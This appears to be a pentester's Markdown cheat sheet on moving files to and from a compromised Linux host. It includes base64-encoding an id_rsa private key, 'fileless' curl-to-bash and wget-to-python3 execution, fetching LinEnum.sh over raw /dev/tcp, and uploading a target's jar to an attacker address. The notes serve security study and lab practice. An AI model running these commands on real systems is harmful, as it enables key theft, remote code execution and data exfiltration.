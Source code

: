 ### Base 64 Encoding 
```shell
md5sum filename
```
Encoding
```shell
cat id_rsa |base64 -w 0;echo
```
Decode
```shell
echo -n '<base 64 value>' | base64 -d > id_rsa
```

# Downloads 
## Web downloads 
```shell
wget <url> -O <output>
```
```shell
curl -o <output> <url>
```
### Fileless Attacks 
```shell
curl <url> | bash
```

```shell-session
wget -qO- <url> | python3
```

### Download with Bash (/dev/tcp)
Connect to target
```shell
exec 3<>/dev/tcp/<ip>/<port>
```
HTTP GET Request 
```shell
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
Print the response
```shell
cat <&3
```
## SSH downloads 
Enable #SSH Server 
```shell
sudo systemctl enable ssh
```
#SCP
```shell
scp <user>@<ip>:<link to file> <output> 
```


# Uploads
### Method 1 
#Python web server 
```shell
sudo python3 -m pip install --user uploadserver
```
Self Signed certificate 
```shell
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
Create a new directory to host the certificate
```shell
mkdir https && cd https

sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
Upload Files 
```shell
curl -X POST http://10.10.14.121:8000/upload -F 'files=/app/cloudhosting-0.0.1.jar' -F 'files=cloudhosting-0.0.1.jar'
```
### Method 2 
#### Alternate Web servers on host 
#Python3
```shell
python3 -m http.server
```
#Python 2.7 
```shell
python2.7 -m SimpleHTTPServer
```
#PHP
```shell
php -S 0.0.0.0:8000
```
#Ruby 
```shell
ruby -run -ehttpd . -p8000
```
Download
```shell
wget <ip>:<port>/<file>
```
### SCP
```shell
scp <file> <user>@<ip>:<link to file>
```

